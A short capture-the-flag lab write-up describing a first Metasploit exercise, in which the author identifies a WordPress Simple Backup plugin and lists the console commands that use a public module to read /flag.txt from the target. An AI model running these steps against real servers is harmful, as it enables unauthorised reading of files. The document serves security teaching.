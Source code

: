 First hack with Metasploit
Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.

msf6 > search simple backup

msf6 > use 0

msf6 > options

msf6 > set RHOST *ip-adress

msf6 > set RPORT *port

*this is because the question is asking us to try and get the content of the /flag.txt

msf6 > set FILEPATH /flag.txt

msf6 > run

cd /home/kali/.msf4/loot

ls

cat *file that you have displayed with the ls command

And there you have your flag. Your first hack
